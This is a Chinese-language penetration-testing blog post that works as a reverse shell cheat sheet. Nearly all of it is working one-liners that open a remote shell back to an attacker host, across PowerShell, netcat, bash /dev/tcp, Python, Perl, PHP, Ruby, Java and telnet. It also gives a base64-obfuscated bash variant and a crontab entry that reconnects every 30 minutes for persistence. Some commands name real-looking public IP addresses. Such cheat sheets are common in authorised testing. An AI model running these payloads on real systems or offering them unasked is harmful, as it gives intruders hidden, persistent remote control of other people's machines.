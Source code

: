<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime : 2020-03-05 15:45:32
 -->
+++
date = "2016-08-06T08:36:53+08:00"
description = ""
draft = false
tags = ["反弹shell"]
title = "反弹shell小结"
topics = ["Pentest"]

+++

当你找到一个有命令执行的主机时，你可能想要一个交互式的shell，如果你不能添加用户或者添加ssh密钥时，你就需要反弹一个shell来实现，下面的都是反弹shell的命令

### 0x00 PowerShell
```
#更换ip和端口即可
本地：nc -lv 8888
目标：powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.10';$p='8888';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};
```

### 0x01 Netcat
```
公网：nc -lv 8888
目标：nc -e cmd.exe 123.123.123.123 8888 #nc -e /bin/sh 10.10.10.10 8888

#获得交互式的shell：
在得到shell后执行：python -c "import pty; pty.spawn('/bin/bash')"
```

### 0x02 Bash
```
bash -i >& /dev/tcp/10.10.10.10/8888 0>&1
注：这个由解析shell的bash完成，有些时候不支持

reber@wyb:~$ cat tmp.txt 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzExNC4xMTUuMTgzLjg2LzY2NjYgMD4mMQ==
reber@wyb:~$ cat tmp.txt |base64 -d
/bin/bash -i >& /dev/tcp/114.115.183.86/6666 0>&1

reber@wyb:~$ {cat,tmp.txt}|{base64,-d}|{bash,-i}
```

### 0x03 crontab
```
下面这条命令执行后会每隔30分钟反弹一次：
(crontab -l;printf "*/30 * * * * exec 9<> /dev/tcp/10.10.10.10/8888;exec 0<&9;
exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|
crontab -
```

### 0x04 Python
```python
# 下面为1条命令
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.10.10.10",8888));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 0x05 Perl
```
# 下面为1条命令
perl -e 'use Socket;$i="10.10.10.10";$p=8888;socket(S,PF_INET,SOCK_STREAM,
getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,
">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 0x06 PHP
```
php -r '$sock=fsockopen("10.10.10.10",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 0x07 Ruby
```
# 下面为1条命令
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",8888).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 0x08 Java
```
# 下面为3条命令
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/8888;cat <&5 | 
while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 0x09 telnet
```
两种方法：
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
telnet 173.214.173.151 8080 | /bin/bash | telnet 173.214.173.151 8888
第一种hacker运行：nc -vlp 8080
第二种hacker运行：nc -vlp 8080和nc -vlp 8888
```

<br />
#### Reference(侵删)：
* [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [https://www.91ri.org/6620.html](https://www.91ri.org/6620.html)
